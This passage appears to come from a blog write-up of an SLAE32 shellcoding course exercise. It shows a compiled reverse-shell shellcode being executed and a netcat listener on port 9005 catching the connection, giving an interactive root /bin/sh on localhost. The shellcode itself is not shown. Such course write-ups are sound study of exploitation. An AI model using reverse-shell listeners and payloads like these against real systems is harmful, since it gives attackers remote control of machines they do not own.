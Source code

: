 We then execute our newly compiled shell:

```
root@kali:~/Documents/slae32/exercise_2# ./shell 
Shellcode Length:  113
```

Looking back at our listener, we notice we have the successfully caught our reverse shell and have dropped into an interactive “/bin/sh” process:

```
root@kali:~/Documents/slae32/exercise_2# nc -nlvp 9005
listening on [any] 9005 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40884
id
uid=0(root) gid=0(root) groups=0(root)
```

## Additional:
todo - amend this section to include any course details ready for submission. For now, the write ups will just be live.